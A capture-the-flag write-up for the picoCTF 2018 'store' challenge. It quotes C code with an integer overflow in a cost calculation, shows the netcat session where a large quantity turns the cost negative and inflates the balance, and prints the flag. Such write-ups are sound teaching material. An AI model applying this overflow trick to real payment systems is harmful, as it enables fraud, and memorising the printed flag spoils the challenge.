 ## store - 400

### Description

> We started a little store, can you buy the flag? Source. Connect with 2018shell1.picoctf.com 43581.

### Write up

```
int number_flags = 0;
fflush(stdin);
scanf("%d", &number_flags);
if(number_flags > 0){
    int total_cost = 0;
    total_cost = 1000*number_flags;
```

overflow happens in `total_cost = 1000*number_flags`

```
if(total_cost <= account_balance){
    account_balance = account_balance - total_cost;
    printf("\nYour new balance: %d\n\n", account_balance);
}
```

So, we can increase `account_balance` here.

```
$ nc 2018shell1.picoctf.com 43581
Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance

[2] Buy Stuff

[3] Exit

 Enter a menu selection
2
Current Auctions
[1] I Can't Believe its not a Flag!
[2] Real Flag
1
Imitation Flags cost 1000 each, how many would you like?
2148483

Your total cost is: -2146484296

Your new balance: 2146485396

Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance

[2] Buy Stuff

[3] Exit

 Enter a menu selection
2
Current Auctions
[1] I Can't Believe its not a Flag!
[2] Real Flag
2
A genuine Flag costs 100000 dollars, and we only have 1 in stock
Enter 1 to purchase1
YOUR FLAG IS: picoCTF{numb3r3_4r3nt_s4f3_6bd13a8c}
```
